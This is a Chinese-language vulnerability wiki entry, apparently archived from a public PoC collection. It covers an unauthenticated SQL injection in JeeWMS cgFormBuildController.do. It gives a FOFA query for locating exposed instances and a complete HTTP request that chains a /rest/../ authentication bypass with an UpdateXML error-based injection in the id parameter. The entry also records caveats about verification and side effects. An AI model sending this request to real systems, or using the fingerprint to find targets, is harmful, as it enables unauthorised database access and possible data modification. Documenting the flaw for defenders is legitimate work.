

# JeeWMS cgFormBuild id SQL 注入

## 条目说明

- 对象与具体问题：JeeWMS；cgFormBuild id SQLi
- 版本、配置及部署条件：<2025.01.01声明；MySQL UpdateXML；特定wm_wendu表
- 认证与权限前提：链式/rest/../绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- saveOrUpdate请求带多业务字段可能修改记录，非只读SQLi检测
- 匿名能力依赖另一路径鉴权缺陷，需分别记录
- CVE与日期型版本无原厂来源；响应只有图，在野模板未证
- FOFA第二裸字符串/元数据残缺，HTTP应围栏

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

JeeWMS cgFormBuildController.do 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

v2025.01.01之前版本

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="url:userController.do?userOrgSelect&userId=" && "loginController.do?changeDefaultOrg"

POC/EXP：

```http
GET /rest/../cgFormBuildController.do?saveOrUpdate&bpm_status=&create_by=&create_date=&create_name=&id='and/**/updatexml(1,concat(0x7e,user(),0x7e),1)and'&sys_company_code=&sys_org_code=&tableName=wm_wendu&update_by=&update_date=&update_name=&wendu_bz=1&wendu_cjsj=2024-05-09+11%3A12%3A41&wendu_dd=1&wendu_zhi=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```





## 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
